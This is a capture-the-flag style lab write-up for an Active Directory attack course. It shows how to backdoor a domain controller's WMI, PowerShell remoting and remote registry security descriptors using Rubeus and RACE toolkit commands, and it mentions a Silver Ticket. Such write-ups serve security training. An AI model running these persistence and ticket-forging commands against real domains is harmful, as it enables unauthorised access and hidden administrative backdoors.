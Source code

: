 ```yaml
---
description: Learning Object 13
icon: vial
---
```


# 13 - LO1️3️

## Tasks



1 - Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access

2 - Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI

Flag 22 \[dcorp-dc] - SDDL string that provides studentx same permissions as BA on root\cimv2 WMI namespace. Flag value is the permissions string from (A;CI;Permissions String;;;SID) 🚩

## Solutions

### 1 - Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access

Remembering that once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges.

First to all start a process as DA:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

So, run as Domain Administrator the following commands to modify the host security descriptors for WMI on the DC to allow student867 access to WMI using RACE toolkit:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\RACE.ps1
Set-RemoteWMI -SamAccountName student867 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Now, go to a normal student867 shell for checking if we're able to execute WMI queries on the DC:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\RACE.ps1
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
Set-RemotePSRemoting -SamAccountName student867 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
Invoke-Command -ScriptBlock{$env:username} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

<figure><img src="../../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student867 -Verbose
```

<figure><img src="../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

### 2 - Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI

We've already inject Silver Ticket into previous tasks, so we can test&#x20;

```powershell
gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Flag 22 \[dcorp-dc] - SDDL string that provides studentx same permissions as BA on root\cimv2 WMI namespace. Flag value is the permissions string from (A;CI;Permissions String;;;SID) 🚩

```powershell
whoami /user
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

this is our SID: S-1-5-21-719815819-3726368948-3917688648-20607

The flag regards the permissions string from (A;CI;Permissions String;;;SID): `CCDCLXXXXXXXXXXX`
